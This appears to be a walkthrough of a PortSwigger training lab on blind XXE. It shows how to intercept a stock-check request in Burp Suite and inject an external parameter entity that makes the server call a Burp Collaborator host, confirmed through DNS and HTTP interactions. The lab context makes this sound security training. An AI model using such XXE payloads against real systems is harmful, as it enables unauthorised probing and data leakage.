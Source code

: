 ## Blind XXE with out-of-band interaction

## Solution

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c5ab75d4-13f7-4be7-8199-4e7bfebb3146">

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

```<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>```

j7rrrmmq2vl217p8kg5brnjcv31upkd9.oastify.com

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/09da1934-a7b4-4dad-b3f3-d01cf9663e1e">


Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result in our payload.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a3ba936f-4511-497d-a507-3df89e4f0c12">

<img width="1437" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/555ea42e-7af8-4e10-a17e-b9565f22ac9b">
